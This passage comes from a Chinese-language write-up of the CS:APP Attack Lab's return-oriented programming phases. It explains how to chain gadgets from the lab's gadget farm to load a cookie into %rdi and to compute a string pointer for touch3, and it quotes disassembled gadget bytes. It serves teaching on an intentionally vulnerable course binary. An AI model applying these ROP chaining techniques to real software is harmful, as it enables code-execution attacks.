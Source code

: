 &emsp;&emsp;由于这些小工具并没有实现`ret`，因此我们需要用别的方法来把cookie的值存入`%rdi`中：

1. 执行`popq %rax`，然后把cookie的ASCII值放进栈中。这样`%rax`中就存有需要的值了。

2. 执行`movq %rax %rdi`。

3. 调用`touch2`，这样`touch2`就可以用`%rdi`中的值作为参数了。

#### &emsp;&emsp;$b.$Phase 5

&emsp;&emsp;根据题目要求，我们需要利用提供的小工具实现Phase 3的功能。而在Phase 3中，我们将字符串指针位置放入`%rsi`，并在`M[%rsi]`处放置cookie的ascii表示。

&emsp;&emsp;为了达到和Phase 3相同的目的，我们需要需要在栈中实现以下结构：

1. 覆盖`getbuf`的缓冲区。

2. 分别将`touch3`指令的地址和`touch3`的参数字符串的指针地址放入栈中。

3. 将字符串的起始位置放置在`%rdi`中。

    * 因为在放入字符串前要放入`touch3`指令的地址，因此我们要将`%rsp+32`的值放入`%rdi`中。`%rsp`是栈指针的初始位置，32是`touch3`指令占据的比特。

&emsp;&emsp;为了实现`+32`，在`rtarger.asm`中可以找到用于赋值与求和的小工具：

```assembly
0000000000401994 <start_farm>:
  401994:	b8 01 00 00 00       	mov    $0x1,%eax
  401999:	c3                   	retq 
```

```assembly
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```

&emsp;&emsp;然后通过小工具，将`%eax`的值传入`%rdi`与`%rsi`中，通过`<add_xy>`就可以构造出常数了。可以发现几个适用的小工具：

```assembly
# gadget movq %rax %rdi
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq  
```

```assembly
# movl %eax, %edx
0000000000401a40 <addval_487>:
  401a40:	8d 87 89 c2 84 c0    	lea    -0x3f7b3d77(%rdi),%eax
  401a46:	c3                   	retq   
```

```assembly
# movl %edx, %ecx
0000000000401a33 <getval_159>:
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	retq   
```

```assembly
# movl %ecx, %esi
0000000000401a25 <addval_187>:
  401a25:	8d 87 89 ce 38 c0    	lea    -0x3fc73177(%rdi),%eax
  401a2b:	c3                   	retq  
```
